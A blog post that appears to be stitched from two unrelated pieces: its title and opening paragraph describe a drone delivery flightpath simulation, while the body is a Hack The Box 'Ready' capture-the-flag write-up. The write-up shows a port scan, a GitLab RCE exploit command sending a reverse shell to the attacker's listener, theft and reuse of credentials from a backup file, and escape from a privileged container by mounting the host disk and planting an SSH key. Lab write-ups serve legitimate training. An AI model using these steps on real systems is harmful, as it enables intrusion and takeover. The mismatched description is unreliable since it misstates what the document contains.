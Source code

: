 ```yaml
---
layout: single
title: Drone flightpath simulation
excerpt: "This project emulates a food delivery service at the Edinburgh University Campus. It addresses the Travel Salesman Problem as the drone used to make the deliveries have a limited battery and the system must optimise the orders to achieve the highest value delivered. Adding on, to add difficulty to the project, there are no-fly zones delimeted in the campus through which the drone must not fly. In this way the drone must also improvise flightpaths when requiried."
date: 2021-12-22
classes: wide
header:
  teaser: /assets/images/flying-drone/drone.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:
  - linux
  - gitlab
  - cve
  - docker
  - privileged container
---
```


![](/assets/images/flying-drone/drone.png)

This project emulates a food delivery service at the Edinburgh University Campus. It addresses the Travel Salesman Problem as the drone used to make the deliveries have a limited battery and the system must optimise the orders to achieve the highest value delivered. Adding on, to add difficulty to the project, there are no-fly zones delimeted in the campus through which the drone must not fly. In this way the drone must also improvise flightpaths when requiried.

## Portscan

```
sudo nmap -T4 -sC -sV -oA scan -p- 10.129.149.31
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-09 22:41 EDT
Nmap scan report for 10.129.149.31
Host is up (0.015s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
5080/tcp open  http    nginx
| http-robots.txt: 53 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.129.149.31:5080/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
```

## Gitlab

The webserver on port 5080 runs a Gitlab instance.

![](/assets/images/htb-writeup-ready/gitlab1.png)

We have access to create a new account.

![](/assets/images/htb-writeup-ready/gitlab2.png)

Once logged in, we see in the projects list there's a single projet called *ready-channel*.

![](/assets/images/htb-writeup-ready/gitlab3.png)

To check the Gitlab version we go to the Help section and we can see it's running 11.4.7.

![](/assets/images/htb-writeup-ready/gitlab5.png)

A quick search on Exploit-DB shows there's an authenticated remote code execution vulnerability for this exact version.

![](/assets/images/htb-writeup-ready/gitlab6.png)

`python3 exploit.py -g http://10.129.149.31 -u snowscan2 -p yolo1234 -l 10.10.14.4 -P 4444`

Reverse shell connection:

![](/assets/images/htb-writeup-ready/shell.png)

![](/assets/images/htb-writeup-ready/user.png)

## Privesc

By running [linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) we find a backup file with some SMTP credentials for the gitlab application. 

```
Found /opt/backup/gitlab.rb
gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"
```

That password is the same password as the root password for the container so we can privesc locally inside the container.

```
git@gitlab:/opt/backup$ su -l root
su -l root
Password: wW59U!ZKMbG9+*#h

root@gitlab:~# 
```

There's a root_pass file in the root of the filesystem but that's not useful.

```
cat /root_pass
YG65407Bjqvv9A0a8Tm_7w
```

If we look at the `/opt/backup/docker-compose.yml` configuration file, we can see it's a hint that we're running in a privileged container:

```
    volumes:
      - './srv/gitlab/config:/etc/gitlab'
      - './srv/gitlab/logs:/var/log/gitlab'
      - './srv/gitlab/data:/var/opt/gitlab'
      - './root_pass:/root_pass'
    privileged: true
    restart: unless-stopped
    #mem_limit: 1024m
```

Privileged containers can access the host's disk devices so we can just read the root flag after mounting the drive.

![](/assets/images/htb-writeup-ready/root.png)

To get a proper shell in the host OS we can drop our SSH keys in the root's .ssh directory.

```
root@gitlab:~# mount /dev/sda2 /mnt
mount /dev/sda2 /mnt
root@gitlab:~# echo 'ssh-rsa AAAAB3NzaC1y[...]+HUBS+l32faXPc= snowscan@kali' > /mnt/root/.ssh/authorized_keys

[...]

$ ssh root@10.129.150.37
The authenticity of host '10.129.150.37 (10.129.150.37)' can't be established.
ECDSA key fingerprint is SHA256:7+5qUqmyILv7QKrQXPArj5uYqJwwe7mpUbzD/7cl44E.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.150.37' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-40-generic x86_64)

[...]

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Thu Feb 11 14:28:18 2021
root@ready:~# cat root.txt
b7f98681505cd39066f67147b103c2b3
```
